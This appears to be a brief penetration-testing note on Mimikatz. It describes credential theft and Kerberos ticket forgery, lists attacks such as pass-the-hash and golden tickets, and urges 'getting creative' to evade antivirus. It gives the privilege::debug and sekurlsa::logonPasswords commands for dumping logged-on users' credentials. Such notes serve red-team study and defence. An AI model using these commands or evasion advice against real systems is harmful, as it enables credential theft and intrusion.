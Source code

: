 -- -
Powerful tool, but will 100% get caught by any AV, IDS, IPS, etc tool deployed. You can get creative to get it past AVs, but if you try to run it without evasion techniques, then you will most likely get caught. 

Tool used to view/steal credentials, generate Kerberos tickets, dump credentials from memory, etc. 
Some attack vectors include: #dumpcreds #pass-the-hash #pass-the-password #over-pass-the-hash #pass-the-ticket #silverticket #GoldenTicket 
#### Get setup
Get the executable onto a windows system. Remember AV will most likely block you so you may need to get creative with getting it on the system and then get creative with running it.
```powershell
# if it allows the privilege::debug command go through, then you are good to go
mimikatz.exe
privilege::debug
```
#### Dump Credentials
```powershell
# dump credentials of users that have logged into the system
sekurlsa::logonPasswords
```

^950288

#### Resources
- [Gentil Kiwi Repo](https://github.com/gentilkiwi/mimikatz)